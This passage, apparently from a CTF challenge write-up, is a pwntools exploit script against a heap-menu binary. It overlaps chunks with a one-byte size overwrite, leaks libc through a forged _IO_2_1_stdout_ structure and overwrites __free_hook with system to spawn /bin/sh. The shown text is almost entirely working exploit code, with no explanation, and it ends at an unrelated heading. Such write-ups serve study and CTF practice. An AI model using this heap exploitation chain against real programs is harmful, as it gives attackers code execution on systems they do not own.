 ```
    sla("Please input your choice:",'1') 
    sla("The length of your info:",str(len)) 
    ru("Data:") 
    sd(data) 
def dele(idx): 
    sla("Please input your choice:",'2') 
    sla("Index:",str(idx)) 
add(0x10,'a') 
add(0x400,'a') 
add(0x60,'a') 
add(0x30,'a') 
add(0x20,'a') 
dele(0) 
pd='a'*0x18+'\xc1' 
add(0x18,pd) 
dele(1) 
dele(2) 
dele(3) 
add(0x400,'a') 
pd='\x60\x97' 
add(0x10,pd) 
add(0x60,'a') 
pd=p64(0xfbad1800)+p64(0)*3+'\x00' 
add(0x60,pd) 
p.recv(0x80) 
leak_addr=leak_address() 
libc_base=leak_addr-libc.sym['_IO_2_1_stderr_']-128 
print hex(libc_base) 
system=libc_base+libc.sym['system'] 
free_hook=libc_base+libc.sym['__free_hook'] 
add(0x20,'a') 
pd='a'*0x20+p64(free_hook) 
add(0x40,pd) 
add(0x30,'/bin/sh\x00') 
add(0x30,p64(system)) 
dele(8) 
p.interactive()
```

### <a class="reference-link" name="Containers"></a>Containers

